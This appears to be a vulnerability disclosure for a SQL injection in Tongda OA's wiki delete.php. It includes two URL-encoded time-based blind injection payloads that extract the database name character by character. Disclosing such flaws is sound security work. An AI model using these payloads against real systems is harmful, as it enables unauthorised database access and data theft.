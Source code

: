 SQL injection vulnerability exists in Tongda OA

verison:Tongda<=v11.10、=v2017 version

route:general/wiki/cp/manage/delete.php

There is an injected parameter: $TERM_ID_STR

The code here is very concise. When $PROJ_ID_STR is not empty, the parameters are directly spliced ​​into the SQL statement. Since it is closed with commas, there is a bypass.

![image](https://github.com/willchen0011/cve/assets/13689053/e8a21381-caa5-43bc-9d4e-a0809c5263bc)

We can use Cartesian product blind injection for injection. The following payload can determine that the first character of the database name is t, because it was successfully delayed at 116. The ASCII code 116 also corresponds to the lowercase letter t. By analogy, the database name and any information about the database can be obtained through blind injection.

POC
```
1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![image](https://github.com/willchen0011/cve/assets/13689053/19be210e-0cbe-46b4-95f7-f4e8ff3c88fe)

Intercept the second digit of the database through blind injection, and determine the second digit as the letter d through the delay time
POC
```
1)%20and%20(substr(DATABASE(),2,1))=char(100)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```
![image](https://github.com/willchen0011/cve/assets/13689053/0dfb434d-da21-4dfe-b41c-376501a9338d)

Get the database name by analogy:td_oa

